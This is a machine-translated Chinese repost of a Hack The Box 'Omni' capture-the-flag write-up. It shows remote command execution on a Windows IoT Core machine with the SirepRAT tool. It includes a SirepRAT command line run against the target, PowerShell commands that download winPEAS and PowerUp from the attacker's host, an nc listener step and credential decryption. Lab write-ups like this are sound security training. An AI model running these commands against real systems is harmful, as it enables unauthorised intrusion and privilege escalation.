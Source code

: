 # HTB·奥米[报道]

> 原文：<https://infosecwriteups.com/htb-omni-writeup-7efdc6fd1c10?source=collection_archive---------0----------------------->

## 使用 SireRAT 开发 Windows 物联网核心

# 摘要

这是一台易受远程代码执行攻击的 windows IoT 机器(RCE)。一种名为 SirepRAT 的远程访问特洛伊木马(RAT)工具被用来利用此漏洞获取根用户。

![](img/819f198c9cc2547c96accb88c3586465.png)

Jorge Ramirez 在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

**操作系统:** Windows 10 IOT 核心 x64 位架构

**使用的工具:**

*   nmap
*   锡雷普拉特— Windows IOT RCE

## 侦察和枚举- NMAP TCP 输出

![](img/699a3208e6e22633931988290ca2bd55.png)

## 据点

*** * * * * * * * * *端口 8080 微软 IIS httpd * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

![](img/5a193bbaaedf2a15518b8524e9151c80.png)

切换到端口 8080，我们可以看到访问这个名为“Windows 设备门户”的站点需要身份验证。我在谷歌上搜索了“windows IoT exploit”，并注意到了一篇关于利用这个漏洞的开源工具的文章。

![](img/98540c59407c366e63acf8793406c2b9.png)![](img/e9efc879509989b6de96ee5b82e5f919.png)

使用此[连杆](https://github.com/SafeBreach-Labs/SirepRAT)安装 SireRAT。

**通过执行以下命令**找出系统主机名

`python /usr/local/bin/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd “C:\Windows\System32\hostname.exe”`

`—return_output`返回命令输出

`—cmd`命令执行

![](img/081d0a148b9af26de2c33775bae2f079.png)

## 启动 nc 监听器并执行 powershell

![](img/4c4575436098e1601671a0278bfa2413.png)![](img/23a688147ba7378220ea7fa6309c3510.png)![](img/4133ff85ea337340922f2303e2b90342.png)![](img/cbe4386e78bedf6c3a2ea14ae638d0c9.png)

`powershell invoke-webrequest -uri [http://10.10.14.24/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe](http://10.10.14.17:8777/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) -outfile C:\Windows\temp\winpeas.exe`

`powershell invoke-webrequest -uri [http://10.10.14.24/windows/](http://10.10.14.17:8777/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe)powerup.ps1 -outfile C:\Windows\temp\powerup.ps1`

![](img/230ddf9a91eaba271ae7478db4a36562.png)![](img/31f737b9e85373a288643e653c3df058.png)

## 横向运动

在使用 winpPEAS.bat 枚举盒子时，我发现还有两个磁盘:D:和 U:

![](img/cf50afc3fa596fe72720cebde588fdbe.png)![](img/ae1b61d38915f7414308c7b30185d842.png)

使用找到的用户应用程序凭据，我尝试登录身份验证门户。

![](img/e87b58ab1256c39732f1206a7a71f0a3.png)![](img/ae1ed59dbf0ffb2344489635d5e34c83.png)

使用 [ref1](https://devblogs.microsoft.com/scripting/decrypt-powershell-secure-string-password/) 和 [ref2](https://www.thinbug.com/q/55807201) 解密 powershell 安全字符串密码。

![](img/8cd449224eff48768af76fb13e18560c.png)

## 权限提升

![](img/60567a797df7618560f79a6f2ba7ba7f.png)![](img/ee402d1d978f7af9be5277b23ceeffc5.png)![](img/8708ce238f299bfa39fe6637ad9a08ec.png)![](img/1d009077c6b1ec420a14d8881745b0c5.png)![](img/dcb3b298379ab07e6416bdd0aa83d884.png)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！